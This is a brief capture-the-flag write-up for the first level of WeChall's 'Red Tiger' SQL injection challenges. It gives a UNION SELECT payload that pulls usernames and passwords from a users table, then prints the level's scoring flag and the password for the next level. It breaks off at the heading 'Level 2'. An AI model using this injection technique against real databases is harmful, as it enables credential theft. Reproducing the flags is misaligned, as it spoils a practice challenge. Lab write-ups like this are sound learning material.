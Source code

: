 Red Tigers from Wechall:
Level 1: 1+UNION+SELECT+1,2,username,password+from+level1_users%23  "This %23 is a # encoded with Ctrl+U that works to comment the rest of the code"

You can raise your wechall.net score with this flag: 27cbddc803ecde822d87a7e8639f9315  
  
The password for the next level is: **passwords_will_change_over_time_let_us_do_a_shitty_rhyme**

Level 2: